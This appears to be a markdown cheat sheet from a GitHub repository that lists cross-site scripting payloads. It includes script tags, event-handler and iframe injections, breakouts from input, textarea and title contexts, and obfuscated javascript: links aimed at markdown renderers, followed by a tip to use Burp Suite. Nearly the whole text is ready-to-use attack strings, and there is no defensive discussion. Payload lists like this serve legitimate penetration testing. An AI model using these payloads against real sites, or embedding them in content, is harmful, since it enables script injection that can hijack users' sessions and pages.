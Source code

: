 

- __`https://test.com/?redirect=

# Cross-Site Scripting (XSS)

- __`/?name=">test123`__
- __`/?name=">test123<script>alert(1)</script>`__
- __`/?name=">test123<script>alert(1);//</script>`__
- __`/?name=">test123<image src=x onerror=alert()>`__
- __`/?name=">test123<image src=x onmouseover=alert()>`__
- __`/?name=">test123<image src=x onmouseover=document.write(1)>`__
- __`/?name=javascript:alert()` or `/?name=<a href=javascript:alert(1)>test123`__
- __`/?name=<iframe src=javascript:alert(1)>`__
- __`/?name=<object data="data:text/html,<script>alert(1)</script>"></object>`__
- __`/?name=<object data="data:text/javascript,<h1>test123"></object>`__
- __`/?name=<script src=data:text/javascript,alert(1337)></script>`__
- __`/?name="><h1><u/onmouseover=alert(1)>test123`__
- __`/?name=test123';alert(1);//`__
#### for "input" tag
- __`/?name=test123" onmouseover=aler(1);//`__

#### for <textarea>
- __`/?name=test123</textarea><img/src=x onerror=alert(2)>`__


#### for </title>
- __`/?name=test123</title><img/src=x onerror=alert(2)>`__


#### for markdown
- __`/?name=[test123](javascript://alert'')`__
- __`/?name=[test123](javascript:alert'')`__
```
[a](javascript:this;alert(1))
[a](javascript:this;alert(1&#41;)
[a](javascript&#58this;alert(1&#41;)
[a](Javas&#99;ript:alert(1&#41;)
[a](Javas%26%2399;ript:alert(1&#41;)
[a](javascript:alert&#65534;(1&#41;)
[a](javascript:confirm(1)
[a](javascript://www.google.com%0Aprompt(1))
[a](javascript://%0d%0aconfirm(1);com)
[a](javascript:window.onerror=confirm;throw%201)
[a](javascript:alert(document.domain&#41;)
[a](javascript://www.google.com%0Aalert(1))
[a]('javascript:alert("1")')
[a](JaVaScRiPt:alert(1))
```
- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)
